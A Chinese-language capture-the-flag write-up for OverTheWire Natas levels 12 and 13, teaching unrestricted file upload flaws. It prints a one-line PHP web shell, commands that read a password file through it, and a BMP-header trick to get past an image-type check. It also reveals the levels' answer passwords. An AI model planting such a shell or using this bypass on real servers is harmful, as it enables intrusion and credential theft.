# Level 12 To Level 13 Write ups

## Level 12

### Challenge Description



website: http://natas12.natas.labs.overthewire.org/

### Background Knowledges

-   檔案的結構
-   PHP 如何處理檔案

### Solve

#### 一、查看原始碼

這邊我的第一步就直接跳過查看 html 原始碼了...

畢竟他就直接給你 php 的 source code 了。

<div id="l12-php-source-code">

```php:line-numbers
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
```

</div>

根據原始碼我們可以取得整個 PHP 在處理網頁時的流程：

1. 確認在 `POST Request` 中是否包含 key `filename` (line 27)。
2. 為 True，則 call function `makeRandomPathFromFilename` 並將回傳值存到變數 `target_path` (line 28)。
    1. 利用 php builtins function 取得路徑資訊並存到變數 `ext` (line 23)。
    2. call function `makeRandomPath` 並回傳該 function 的回傳值 (line 24)。
        1. 在滿足變數 `path` 為一個存在路徑 (line 18 while 的條件)下，將參數 `dir`、"/"、function `genRandomString` 的回傳值、"."，以及參數 `ext` 組成一個字串並且存到變數 `path` 中 (line 16 ~ 18)。
            1. 產生一個長度為 10，且包含 [0-9a-z] 的亂數字串 (line 4 ~ 10)。
            2. 回傳該亂數字串 (line 12)。
        2. 回傳變數 `path` (line 19)。
3. 檢查檔案大小是否大於 1000 ([php 中的檔案大小單位為 bytes](https://www.php.net/manual/en/function.filesize.php))，若是則直接 echo 檔案過大 (line 31 ~ 32)。
4. (若是小於 1000 bytes) 移動檔案 (php builtins function `move_uploaded_file`) 到變數 `target_path` 所在的位置並檢查是否成功 (line 34)。
5. 若是成功，則 echo 檔案儲存的路徑 (line 35)。
6. 若不成功，則顯示上傳檔案失敗 (line 36)。
7. 若第 1 步判斷就失敗，則顯示上傳的介面 (line 40 ~ 50)。

可以看到，這就是一個單純的上傳「圖片」的網頁，但是...他沒有判斷上傳的型別或是任何的副檔名。

這下，就成了鼎鼎大名了「上傳檔案漏洞」了。

::: tip **更多關於這個漏洞的知識**

你可以查看以下連結內容去了解：

<PreviewCard title="CWE-434: Unrestricted Upload of File with Dangerous Type" url="https://cwe.mitre.org/data/definitions/434.html" />
:::

#### 二、編寫及上傳惡意程式。

知道是這種漏洞，那麼就簡單了。

既然是沒有做任何的「型別判定」，那麼就上傳一個惡意的 `.php` 檔案做攻擊就行了。

我上網找了一下，挑了個最簡單的 shell 執行程式碼來使用 ([source](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985))：

<div id="evil-code">

::: code-group

```php:line-numbers [evil.php]
<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

:::

</div>

儲存成檔案就可以上傳囉～

#### 三、人生就是充滿了突發狀況

這邊若是你正常的上傳，你會出現以下的問題：

> [!NOTE] 1. 上傳
> 

> [!WARNING] 2. 顯示網頁
>
> _這個檔名怪怪的_ > 

> [!CAUTION] 3.... 看不到網頁 🫠🫠🫠
> 

為什麼會這樣咧？原因是因為在上傳時，他的檔案名稱的控制不是由「你選擇的檔案名稱」來控制，而是由一個 `<input>` 標籤來處理。

它藏在哪呢？就在這個傳送的 `<form>` 裡面啦！但是他被 hidden 起來了，所以我們要用 Inspetor (Development Tool) 來轉換。





然後上傳就可以啦～

> [!TIP] 上傳檔案並且修正成正確的副檔名
> 

> [!IMPORTANT] 取得 URL
> 

> [!IMPORTANT] 成功取得 php
> 

#### 四、輸入惡意命令

還記得我們剛剛的[惡意程式](#evil-code)嗎？

你仔細看這一行：

```php:line-numbers
<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']); // [!code focus]
}
?>
```

這邊我們只要給予正確的 `GET` 後面的 `query param` ，就可以執行任意的系統命令。

這邊我們先試著利用以下 `query param` 放在網址後面看看：

```
?cmd=whoami
```



確認可以出結果後，我們就直接來尋找我們要的密碼。

根據 Natas 的第一頁介紹，我們要的帳號密碼通常放在 `/etc/natas_webpass/` 裡面。

所以我們利用 `cat` 在檔案 `/etc/natas_webpass/natas13` 裡面查看我們要的密碼：

```
?cmd=cat /etc/natas_webpass/natas13
```



找到答案啦～

### Thoughts

本題的小卡關點我相信就是在「檔案名稱」的部分。

畢竟這件事情是大家容易忽略的。

但是如果仔細閱讀[程式碼](#l12-php-source-code)你就會注意到在 line 28 有提到 `POST Request` 的 body 內要帶有 key `filename`，另外在 line 48 也有出現 name 為 `filename` 的 `<input>` element。

所以第一次忘記，回頭仔細檢查一下程式碼，應該就沒什麼問題了！

### Answer

::: details 答案
username: `natas13`

password: `lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9`
:::

---

## Level 13

### Challenge Description



website: http://natas13.natas.labs.overthewire.org/

### Background Knowledges

-   圖片的結構與 exif
-   如何修改一個檔案的 exif

### Solve

本題的概念與上一題類似，只有差在原始碼中開始有了型別轉換，而且還是特別ＸＸ型的...

因為與[上一題](#l12-php-source-code)幾乎一模一樣，所以就不再重複貼 functions 的區域。

```php:line-numbers=23
<?php

//...functions processing as in the previous level.

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) { // [!code focus]
        echo "File is not an image"; // [!code focus]
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
```

這次的判別中，多判別了 `exif_imagetype` 的部分。

關於這個函式你可以參考：

<PreviewCard title="PHP: exif_imagetype 函式說明" url="https://www.php.net/manual/zh/function.exif-imagetype.php" imgsrc="/php-logo.png" />

而什麼是 `exif` 呢？可以參考以下文章：

<PreviewCard title="Exif 可交換圖檔格式" url="https://zh.wikipedia.org/zh-tw/Exif" imgsrc="/wiki-logo.png" />

> 上方 Preview 圖片來源為 https://yuwaywen.com/ydailywiki3/

在了解了 `exif` 後，我們就要來偽造檔案的 `exif`，使我們可以順利通過檢定。

> [!NOTE] 有趣的限制
> 這邊很有趣的是，雖然他有檢查「圖片的特徵」，但是卻沒有檢查副檔名。
>
> 不過也是啦，要是檢查副檔名，初學者在這邊會卡很久，那就不用玩了...

要如何塞 `exif` 進去呢？可以用線上工具 `HexEd.it` 來處理。

<PreviewCard title="HexEd.it" url="https://hexed.it/" imgsrc="https://hexed.it/img/logo.png" />

我們這次要塞的是 `.bmp` 檔案的 file header。

為什麼選定 `.bmp` 呢？因為 `.bmp` 的 header 只需要宣告檔案長度就好，不用管其他有的沒的，更不用去處理 file footer 的部分，因此就選定為 `.bmp`。

關於 `.bmp` 的 file header 特徵值，可以查看以下內容：

<PreviewCard title="BMP file format" url="https://en.wikipedia.org/wiki/BMP_file_format" imgsrc="../../../../public/articles/01_Wargames/00_OverTheWire/00_Natas/04_Level_12_To_Level_13/20240229004747.png" />

我們先把原本的 [`evil.php`](#evil-code) 內容貼到 `HexEd.it` 裡面：



然後我們加上 `.bmp` 的 file header：







下載下來後重新上傳（記得呼叫 `<input name="filename" />` 改檔名）：







最後就是跟 `Level 12` 一樣下指令（記得搜尋的地方改成 `natas14` 就是了），就可以通過囉～



### Thoughts

這一關真的非常棒的加入了檔案結構的概念。

光是不懂檔案結構就會在這邊卡好久了！

再加上不會修改檔案結構又會在卡很久...

但是這關可以學到非常多額外的知識，也可以開個支線往 `Forensics` 的方向去走。

我個人覺得非常建議在這關多琢磨琢麼！

再次強調這個漏洞：

<PreviewCard title="CWE-434: Unrestricted Upload of File with Dangerous Type" url="https://cwe.mitre.org/data/definitions/434.html" />

真的值得好好去了解。

### Answer

::: details 答案
username: `natas14`

password: `qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP`
:::
